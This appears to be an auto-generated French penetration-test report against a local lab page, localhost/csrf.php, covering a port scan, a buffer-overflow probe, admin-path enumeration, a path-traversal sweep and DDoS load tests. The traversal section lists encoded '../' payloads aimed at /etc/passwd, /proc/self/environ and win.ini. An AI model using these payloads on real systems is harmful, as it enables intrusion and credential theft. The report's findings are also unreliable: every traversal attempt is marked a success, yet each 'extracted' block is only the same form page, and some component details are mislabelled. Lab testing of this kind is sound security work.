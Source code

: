 # Rapport des Attaques

## Analyse de l'attaque Nmap :
URL cible : localhost

Résultats du scan :
Ports ouverts : 80

## Analyse de l'attaque Buffer Overflow pour : http://localhost/csrf.php
Payload envoyé (100 octets).
Réponse du serveur : 200
ID de session : r54upaqk5cdolg3ucnkjtkk09g<br>Utilisateur  introuvable.
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisat...


## Analyse de l'attaque Access Control :
- Accessible: http://localhost/csrf.php/admin (200 OK)
- Accessible: http://localhost/csrf.php/settings (200 OK)
- Accessible: http://localhost/csrf.php/hidden (200 OK)
- Accessible: http://localhost/csrf.php/api (200 OK)
- Accessible: http://localhost/csrf.php/dashboard (200 OK)
- Accessible: http://localhost/csrf.php/config (200 OK)
- Accessible: http://localhost/csrf.php/login (200 OK)
- Accessible: http://localhost/csrf.php/logout (200 OK)
- Accessible: http://localhost/csrf.php/register (200 OK)
- Accessible: http://localhost/csrf.php/backup (200 OK)
- Accessible: http://localhost/csrf.php/data (200 OK)
- Accessible: http://localhost/csrf.php/private (200 OK)
- Accessible: http://localhost/csrf.php/secure (200 OK)
- Accessible: http://localhost/csrf.php/test (200 OK)


## Analyse des Composants Vulnérables

URL cible : http://localhost/csrf.php
### Composants détectés :
- **PHP**: 2.4.54

### Frameworks détectés :
- **Backend Framework**: PHP/7.4.33

### Vérification des vulnérabilités :

#### PHP:
PHP: Pas de vulnérabilités connues

#### Backend Framework:
Backend Framework: Pas de vulnérabilités connues
## Path Traversal

URL cible : http://localhost/csrf.php
- Fichier cible : /etc/passwd
- Fichier cible : /etc/hosts
- Fichier cible : /windows/win.ini
- Fichier cible : /proc/self/environ
- Pattern de traversée : ../
- Pattern de traversée :  ..\
- Pattern de traversée :  ..%2f
- Pattern de traversée :  ..%5c
- Pattern de traversée :  ..%c0%af
- Pattern de traversée :  ..%u2216
- Pattern de traversée :  ..%252e%252e%255c

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file=..//etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : u85vvprk53b5ledi2rqr0vopsg<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..\/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 87b5i8ni2630vm5825ep3ku5l1<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%2f/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 5mq9rot7qlvri75nf7uukev05o<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%5c/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : r802gqltgo9pjrukj552h48qpa<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%c0%af/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : kfthu3mbkvhqukt1hl8308p4ba<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%u2216/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : ljsmh28k3ibdurscb0f221u8b2<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%252e%252e%255c/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : kiqjmfa7s893kpaiba2b5fkgo5<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file=..//etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : r16hjvh6big5l9lm8aahrq2hcp<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..\/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : hes9ou363flo4n6a1vak5rlcm2<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%2f/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 5d4kboc2eqp30k21m1domju1o3<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%5c/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 0db5oa9ai48v2tbjj15kn1s5rs<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%c0%af/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 7hftig529709gqtrfj00fff618<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%u2216/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : n8bn3viodtiim0gmaiq53camfb<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%252e%252e%255c/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : gr446t2mn5900r43lu7hb9hfgb<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file=..//windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : k7g3kjvsq6377f70dv1r70f62b<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..\/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : fujpgrsnijrad9k59u8f6qlmn3<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%2f/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : c64v8l2u447ec0m6fbiedhhk6f<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%5c/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : vk6r8jqje83prul2i4rsqjipjr<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%c0%af/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 2g62bghgv9vh21je63j9u91ttq<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%u2216/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 3s8t23s298dps7f04g4oop8l8o<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%252e%252e%255c/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : p0n051ut9fq5eac698q73d59rt<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file=..//proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : bkd27i0qucupbmk4eus29n8l42<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..\/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : bmpoi9s7d42020hpnf1kmlj41s<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%2f/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : v06hmodqrjp2iod81l1dja8r7q<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%5c/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 0a6ht9fgda4d8d93mpejkst19e<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%c0%af/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : rh3r2svjulk5kdkhpd2ql6a5pa<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%u2216/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : j79tu75mr846rib9t9cap1skgd<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%252e%252e%255c/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : fi436lg2cqr6q2pfqqqubp79pv<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

## Analyse de l'attaque DDoS
- URL cible : http://localhost/csrf.php
- Temps initial estimé : 10.00 secondes
- Temps réel de l'attaque : 10.35 secondes
- Nombre de requêtes sélectionnées : 100
- Requêtes effectuées : 100
- Intervalle entre les requêtes : 0.10 secondes


## Analyse de l'attaque ICMP DDoS
Durée totale : 12.33 secondes
Nombre total de requêtes : 100
Requêtes par seconde : 8.11


